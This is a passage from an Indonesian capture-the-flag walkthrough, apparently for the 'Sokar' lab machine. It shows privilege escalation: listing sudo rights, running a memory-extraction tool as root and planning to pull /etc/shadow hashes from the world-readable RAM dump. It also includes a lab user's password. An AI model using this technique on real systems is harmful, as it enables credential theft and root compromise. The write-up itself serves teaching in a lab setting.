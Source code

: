 
# [#] Eksploitasi 3

coba sudo

~~~~
sh-4.1$ sudo su
sudo su
[sudo] password for bynarr: fruity
Sorry, user bynarr is not allowed to execute '/bin/su' as root on sokar.
~~~~

Tidak boleh sudo su. Sekarang periksa apa saja state sudo kita.

~~~~
sh-4.1$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime
~~~~

Kita bisa menjalankan /home/bynarr/lime dengan sudo. Baiklah.

~~~~
sh-4.1$ cd /home/bynarr
sh-4.1$ sudo ./lime

==========================
Linux Memory Extractorator
==========================

LKM, add or remove?
> add
~~~~

Mari lihat hasilnya di /tmp/ram

~~~~
sh-4.1$ ls -la /tmp/ram
ls -la /tmp/ram
-r--r--r-- 1 root root 267971584 Nov 29 01:48 /tmp/ram
~~~~

Readable oleh semua. Coba kita dump string yang ada di sana. Kita berharap ada isi dari /etc/shadow di sana.
Kita cari untuk user apophis dan root.
